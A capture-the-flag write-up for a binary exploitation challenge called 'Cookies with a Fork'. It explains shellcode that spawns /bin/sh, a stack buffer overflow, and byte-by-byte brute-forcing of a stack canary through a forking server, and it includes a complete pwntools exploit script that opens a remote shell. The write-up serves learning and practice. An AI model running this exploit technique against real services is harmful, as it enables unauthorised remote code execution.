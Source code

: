 # Write up for Cookies with a Fork

## Overview

For this challenge we are doing some rev, buffer overflow, shellcode, and canary bruteforcing. We have an application that 
lets us repeatedly write some data to an address using a forked child process, and tells us where the data is stored. 


## Solution

### Flag 1

Our goal is to give ourselves a shell to control their server. First note that they give us the address where we're writing to. Similar
to Shell Emporium, we will create a payload involving ```b"/bin/sh\x00"``` and some assembly to call the execv syscall at the address holding that string, which 
will execute the bash shell binary. This can be done with the assembly
```Python
shellcode = asm(
    f"""mov rax, 59; mov rdi, {address}; mov rsi, 0; mov rdx, 0; syscall""",
    arch="amd64",
    os="linux",)
```

Then, we want to buffer overflow and overwrite the return address with the address of our assembly.

We know the buffer is 200 bytes long and the canary is 
immediately after the buffer from our analysis of the decompiled code in Ghidra. 

Unfortunately there's a canary in the way. 
Fortunately, they let us repeat our input using fork, so the canary doesn't change. 

Thus, we can just bruteforce the individual bytes of the canary 
by only sequentially bruteforcing one byte at a time and storing the part when it doesn't give us a stack smashing error. With this, 
it becomes possible to bruteforce the canary (8*(2^8) vs 2^64 options). Then we can overwrite the return address, execute the assembly 
to start a shell and give us the flag.

A solution script implementing this is below

```Python
#!/usr/bin/env python3

from pwn import *
context.terminal = ['tmux', 'split']

p = remote("REDACTED", REDACTED)
# p = process("./cookies")

print(p.recvline())
p.recvuntil("store it at ")

# Get address our payload will be stored at
address = p.recvline()
address = address[:-2]
address = int(address, 16)


# Write our payload to execute bash with an execv syscall
shellcode = asm(
    f"""mov rax, 59; mov rdi, {address}; mov rsi, 0; mov rdx, 0; syscall""",
    arch="amd64",
    os="linux",)

# Note the length of our full payload for our buffer overflow
payload_len = len(b"/bin/sh\x00") + len(shellcode)


# Initialize canary guess
canary = b''
# Initialize current canary byte guess
current_byte = 0
# Find canary by brute forcing each byte sequentially
for i in range(8):
    result = b'*** stack smashing detected ***: terminated\n'
    current_byte = -1
    # Until we don't get a stack smashing error
    while result == b'*** stack smashing detected ***: terminated\n':
        current_byte+=1
        # Ensure our canary guess doesn't include a newline, which will stop our buffer writing
        if p8(current_byte) != b"\n":
            # send payload and canary guess
            p.send(b"/bin/sh\x00")
            p.send(shellcode)
            p.send(b"a"*(200-payload_len))
            p.sendline(canary + p8(current_byte))
            result = p.recvline()
            p.recvline()
    canary += p8(current_byte)
    print(canary)
# Let the user know what the true canary is
print("canary is: ")
print(canary) 

# Send payload with canary
p.send(b"/bin/sh\x00")
p.send(shellcode)
p.send(b"a"*(200-payload_len))
p.send(canary)
p.sendline(p64(address+8)*8)

p.interactive()
```


